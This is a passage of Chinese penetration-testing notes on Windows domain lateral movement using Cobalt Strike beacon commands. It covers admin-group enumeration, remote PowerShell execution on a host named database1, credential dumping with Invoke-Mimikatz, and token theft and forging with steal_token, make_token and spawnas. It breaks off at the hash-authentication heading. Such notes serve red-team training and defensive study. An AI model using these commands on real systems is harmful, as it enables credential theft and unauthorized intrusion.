 `shell net group "enterprise admins" /domain `查询域内管理员是

`shell net group "domain admins" /domain`

`shell net localgroup "administrators" /domain `

beacon下的命令

`net group \\dc`查看dc的组

`net localgroup \\dc “admin”`  查找一下dc的`admin`组，要注意其中的权限分配，还有就是查询的速度会很慢，耐住性子

powerview 

`powershell Get-NetLocalGroup -HostName database1`查看database1的本地用户组

### 2.3 winrm执行powershell

本条基于所渗透的主机是本地的超级管理员

`shell dir database1 \C$` 查看database1的c盘目录

`shell dir /S /B  \\database1\c$\users` 查看曾经登录过的用户，`这个目录下信息含量很大`

`powershell Invoke-Command -ComputerName database1 -ScriptBlock{ dir c:\}`这里就相当于使用powershell执行cmd命令 ，有可能因为链接不是很稳定，导致执行命令出错

powershell Invoke-Command -ComputerName database1 -ScriptBlock{ net localgroup administrators}

这些命令都是在伤害着这台机子上执行的

### 2.4 powersploit 运行MImikatz

`powershell-import invoke-MImikatz.ps1 `导入该内网渗透神器

`powershell Invoke-Mimikatz -ComputerName database1 `

## 3 登录验证

### 3.1 制作凭证（必须要系统权限system）

用mimikatz收集到的密码 用凭证制作一个标记，制作成临时身份。

`rev2self` 终止标记  （这是beacon命令，恢复原来的令牌【token】）

访问域控主机

`steal_token ID` 域控主机的超级管理员进程（ID是超级管理员进程）

`make_token TEST1\Aadminstrator 123456` 制作token

`make_token domain\user password `domain可以生成本地的，代码是一个点

`spawnas domain\user password `再生成一个会话

## 4 hash验证

### 4.1 散列认证

